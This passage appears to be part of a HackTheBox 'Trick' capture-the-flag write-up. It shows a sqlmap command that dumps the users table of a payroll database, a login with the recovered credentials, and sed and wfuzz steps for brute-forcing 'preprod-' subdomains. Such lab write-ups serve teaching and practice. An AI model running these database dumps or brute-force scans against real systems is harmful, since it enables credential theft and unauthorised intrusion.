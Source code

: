 ![Tables in payroll_db](16.png "Tables in payroll_db")

Now for the entries in the `users` table.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sqlmap -r login.req http://preprod-payroll.trick.htb/ -D payroll_db -T users --dump
```

![users table](17.png "users table")

Logging with these credentials we get the following page.

![Logged in](18.png "Logged in")

I couldn't find anything further here so moved on to brute-forcing `vhosts`.

Brute-forcing `vhosts` we couldn't find any so we can try brute-forcing with a pattern `preprod-<subdomain>.trick.htb`

We can first use `sed` command to add a prefix to our wordlist then use `wfuzz` to brute-force subdomains based on their character count.

```bash
┌──(kali㉿kali)-[~/…/hackthebox/hackthebox/machines/Trick]
└─$ sed -e 's/^/preprod-/' /home/kali/Documents/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  > newWordlist
```
